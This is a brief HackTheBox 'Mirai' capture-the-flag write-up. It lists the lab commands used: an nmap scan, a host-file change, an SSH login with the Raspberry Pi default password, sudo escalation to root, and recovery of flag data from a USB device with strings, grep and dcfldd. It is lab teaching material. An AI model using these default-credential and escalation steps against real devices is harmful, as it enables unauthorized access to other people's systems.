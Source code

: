 # HackTheBox Mirai Writeup

![date](https://img.shields.io/badge/date-02.21.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-3144-brightgreen.svg)

## Detailed Solution

### Nmap Scan 

      > nmap -sC -sV -oA nmap/initial 10.10.10.48

### Burp Intercept

      You need to modify host to get response.
      
### Then change host file to access target webpage
       
### Login using RaspberryPi default credentials.

      > ssh pi@10.10.10.48 (passwd: raspberry)
      > sudo -l
      > sudo su -
      > df -lh
      > mount
      > cd /media/usbstick/
      
      > strings /dev/sdb
      > xxd /dev/sdb | grep -v '0000 0000 0000 0000 0000 0000 0000 0000'
      > grep -a '[a-z0-9]\{32\}' /dev/sdb
      > grep -B2 -A2 -a '[a-z0-9]\{32\}' /dev/sdb
      > which dd
      > which dcfldd
      
      > ssh pi@10.10.10.48 "sudo dcfldd if=/dev/sdb"
